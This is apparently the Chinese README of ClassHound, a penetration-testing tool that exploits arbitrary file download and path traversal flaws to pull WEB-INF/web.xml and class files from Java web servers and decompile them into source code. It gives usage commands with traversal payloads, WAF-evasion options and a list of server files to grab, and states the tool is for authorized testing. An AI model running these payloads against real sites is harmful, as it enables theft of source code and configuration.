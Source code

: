 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**



### 注意事项

```
1. 程序兼容 python 2.7+ 和 3.4+, 运行前先安装 requirements.txt 中的python模块, 并安装配置好 java 环境变量
2. 使用过程中的 bug 和优化建议欢迎提 issue
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```



### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
sudo pip install requirements.txt
sudo chmod +x classhound.py
python classhound.py -h
```



### 使用效果

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/resource/GIF.gif)



### 使用

### *0x00:* -u/--url



指定可 **正常下载文件** 的链接, 并默认使用 `#` 字符标记任意文件下载漏洞的文件位置

例如可正常下载 **1.png** 文件的链接如下：`http://127.0.0.1/download.jsp?path=images/1.png`

任意文件下载漏洞载荷位置正好在 **1.png**，可以使用命令：

`python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#"`

或者使用链接`http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml` 可正常下载文件时,

也可使用命令: `python classhound.py -u "http://127.0.0.1/download.jsp?path=#../../../WEB-INF/web.xml#"`



### *0x01:* -k/--keyword



指定**下载失败时**页面会出现的关键字，可用来辅助程序判断是否下载成功，如 `-k "404 not found"`

不清楚或不固定时，可以不指定



### *0x02:* -p/--post



使用 POST 请求下载文件

例如 `python classhound.py -u "http://127.0.0.1/download.jsp" --post "path=images/#1.png#"`



### *0x03:* -tc/--travel-char (推荐使用)



指定**文件遍历字符**，默认是 `../`，当对方有WAF或者程序没有自动探测出来特殊的遍历字符时，可以单独指定。



*0x04:* -cc/--char-count  (推荐使用)



指定下载 `WEB-INF/web.xml` 文件时的**遍历字符数量**，程序没有自动探测出来遍历字符数量时，可以单独指定

例如，可使用 `http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml` 下载 `WEB-INF/web.xml`文件时，此时的遍历字符数量为 `3` 个

可使用命令：

`python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -tc "../" -cc 3`



### *0x05:* -bp/--base-path



指定 `WEB-INF/web.xml` 的多级父目录



例如当因目录原因，直接跳目录用 `../../../WEB-INF/web.xml` 不能下载 `WEB-INF/web.xml` 文件，需要用 `../../../../../../../opt/tomcat/webapps/cms/WEB-INF/web.xml` 才可以下载成功时：

可以指定需要拼接的前缀路径为 `opt/tomcat/webapps/cms/`，同时用 `-cc 7` 显示指定需要 `7` 个遍历字符。



### 其他参数

```markdown
## -s
设置两次HTTP请求间的 sleep time，暂停N秒，防止请求过于频繁被 waf 拦截

## -f
如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
相对路径的文件下载可能需要不一样数量的遍历字符, 可以同时启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
例如创建文件 download.txt，内容如下:
/etc/issue
install/index.jsp
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class

## --auto
自动切换遍历字符数量，常和 -f 参数一起使用

## -dc
设置标记漏洞的分隔符，默认为 #

## -mc
设置自动探测时尝试的最大遍历字符数量, 默认 8

## -hh
设置请求时的额外 HTTP header

## -hp
设置 HTTP/HTTPS 代理
```



### 程序修改

极少数情况下，下载的文件可能会被二次处理，比如`在文件头部或尾部添加额外字符`、`文件被编码`等。

此时，可以修改程序中的 `save_file` 函数，在文件在保存到本地前，对文件做额外处理，还原成正常的 `xml` 或 `class` 文件。



### 依赖开源程序

反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)
